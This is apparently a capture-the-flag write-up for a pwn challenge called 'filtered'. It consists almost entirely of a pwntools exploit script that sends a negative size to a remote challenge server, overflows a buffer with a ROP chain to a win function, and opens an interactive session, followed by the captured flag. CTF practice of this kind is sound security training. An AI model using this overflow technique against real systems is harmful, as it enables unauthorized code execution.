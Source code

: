 # filtered [pwn/100]
First blood:
```python
from pwn import *
context.binary = 'filtered'
#r = context.binary.process()
r = remote('167.99.78.201', 9001)
r.sendlineafter("Size: ", '-1')
R = ROP(context.binary)
R.raw(b'a'*0x118)
R.win()
r.sendlineafter("Data: ", R.chain())

r.interactive()
```
`ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}`
